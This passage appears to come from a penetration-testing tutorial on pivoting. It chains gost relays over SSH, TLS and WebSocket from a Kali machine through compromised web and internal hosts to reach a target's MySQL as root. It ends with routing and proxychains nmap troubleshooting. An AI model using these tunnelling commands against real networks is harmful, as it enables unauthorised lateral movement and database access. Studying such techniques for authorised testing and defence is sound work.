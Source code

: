 **Web server command (10.0.0.5):**
```
gost -L "relay://:8443?ip=1.1.1.1&port=1080"
```
- `relay://:8443`: relay forwards traffic to Kali (1.1.1.1:1080).

### **Step 2: Second Hop (Web Server → Internal Host)**
**Command on Internal Host (192.168.1.10):**
```
gost -L "relay+tls://:443?ip=10.0.0.5&port=8443"
```
- `relay+tls://:443`: TLS encrypted relay, connects to first hop (10.0.0.5:8443).

### **Step 3: Third Hop (Internal Host → Target Server)**
**Command on Target Server (172.16.0.20):**
```
gost -L "relay+ws://:80?ip=192.168.1.10&port=443"
```
- `relay+ws://:80`: relay via WebSocket, connects to second hop (192.168.1.10:443).

### **Building the chain on Kali:**
```
gost -L :3306 \
-F "forward+ssh://user@10.0.0.5:22" \
-F "relay+tls://192.168.1.10:443" \
-F "relay+ws://172.16.0.20:80"
```
- `-L :3306`: forwards port 3306 to Kali.
- `-F`: defines the hop chain:
1. SSH tunnel to 10.0.0.5.
2. TLS relay to 192.168.1.10.
3. WebSocket relay to 172.16.0.20.

**MySQL access on target server:**
```
mysql -h 127.0.0.1 -P 3306 -u root -p
```
## Possible problems and solutions

### 1. **Problem: No route to target network**
**Symptoms:**
`No route to host`, packets are lost after the first hop.
**Solution:**
Add a static route on Kali:
```
sudo ip route add 172.16.0.0/24 via 10.0.0.5
```

Or use `proxychains`:
```
proxychains nmap -sT -p 22,80,443 172.16.0.20
```
